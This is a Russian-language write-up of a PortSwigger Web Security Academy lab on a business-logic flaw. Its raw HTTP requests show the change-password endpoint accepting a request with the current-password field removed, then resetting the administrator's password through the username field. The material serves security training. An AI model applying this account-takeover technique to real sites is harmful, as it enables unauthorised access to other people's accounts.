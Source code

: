```yaml
---
title: "Weak isolation on dual-use endpoint"
date: 2025-10-16
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint"
classes: wide
---
```


Для прохождения нужно получить доступ к аккаунту администратора и удалить пользователя `carlos`. Для входа в учетную запись есть креды `wiener`:`peter`.

```
https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net/
```

# Solution

Даны креды, поэтому стоит зайти в учетную запись. Воу. Как много возможностей в лк:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_weak-isolation-on-dual-use-endpoint/1.png){: height="200" .align-center}

Форма для изменения пароля выглядит любопытно. Особенно нравится возможность ввести имя пользователя самостоятельно. Попробую изменит пароль:

```http
POST /my-account/change-password HTTP/2
Host: 0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Cookie: session=fQlSQMfUTvDilyDbm34B1xtCvaBuCesA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Origin: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=kf1PryYuLmGb1EnKO7Z5MdvbjOlXG50c&username=wiener&current-password=peter&new-password-1=1&new-password-2=1
```

Попроюбую изменить пароль без поля `current-password`:

```http
POST /my-account/change-password HTTP/2
Host: 0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Cookie: session=fQlSQMfUTvDilyDbm34B1xtCvaBuCesA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
Origin: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=kf1PryYuLmGb1EnKO7Z5MdvbjOlXG50c&username=wiener&new-password-1=2&new-password-2=2
```

И это сработало:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_weak-isolation-on-dual-use-endpoint/2.png){: height="200" .align-center}

Попробую изменить пароль другому пользователю. Предположим, что у админа логин `administrator`:

> За это время у меня успела протухнуть сессия, поэтому пришлось получить новый запрос.

```http
POST /my-account/change-password HTTP/2
Host: 0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Cookie: session=9IGmLo32t4tMNQy9QWa8OSXwWpmZwvFK
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: https://0a1300b203e960ca83f4d27f006100a8.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=Y8imk7edOIAMSwzbjVVoNBOekHuepPbX&username=administrator&new-password-1=2&new-password-2=2
```

Пришел положительный ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2627

<!DOCTYPE html>
...
```

Протестирую:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_weak-isolation-on-dual-use-endpoint/3.png){: height="200" .align-center}

Удалим `carlos`. Решено)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_weak-isolation-on-dual-use-endpoint/4.png){: height="200" .align-center}
